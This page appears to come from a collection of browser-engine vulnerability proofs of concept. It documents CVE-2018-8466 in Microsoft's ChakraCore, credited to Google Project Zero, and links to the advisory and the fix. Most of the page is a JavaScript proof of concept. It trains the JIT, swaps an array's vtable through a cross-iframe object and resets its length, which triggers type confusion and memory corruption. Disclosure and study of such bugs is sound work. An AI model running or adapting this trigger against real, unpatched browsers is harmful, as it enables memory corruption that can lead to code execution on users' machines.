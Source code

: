 # CVE-2018-8466

- Fix: Sep 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(x_obj, arr) {
    arr[0] = 1.1;
    
    x_obj.a = arr;  // Replacing the vtable.
    arr['leng' + 'th'] = 0;  // The length changes, but the BailOutOnInvalidatedArrayHeadSegment check will think that it's not an array. So no bailout will happen.

    arr[0] = 2.3023e-320;
}

let x_obj = document.body.appendChild(document.createElement('iframe')).contentWindow.eval('({})');
let arr = [1.1, 1.1];

for (let i = 0; i < 10000; i++) {
    opt(x_obj, arr.concat());
}

opt(x_obj, arr);

arr[1] = {};  // in-place type conversion
alert(arr);
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-8466)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1612)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/a404dec6506962d9a608ca9642b0aab147a0f8d1)
